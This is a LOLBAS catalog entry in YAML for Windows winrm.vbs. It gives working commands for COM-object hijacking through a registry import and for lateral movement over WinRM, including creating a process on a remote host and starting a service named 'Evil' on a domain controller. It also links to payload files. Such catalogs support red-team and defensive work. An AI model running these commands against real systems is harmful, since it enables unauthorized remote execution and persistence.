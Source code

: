 ```yaml
---
Name: Winrm.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
  - Command: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
  - Command: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
Full Path:
  - C:\windows\system32\winrm.vbs
  - C:\windows\SysWOW64\winrm.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr_calc.sct
Detection: []
Resources:
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://www.youtube.com/watch?v=3gz1QmiMhss
  - https://github.com/enigma0x3/windows-operating-system-archaeology
  - https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - https://twitter.com/bohops/status/994405551751815170
Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc: Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)
---
```

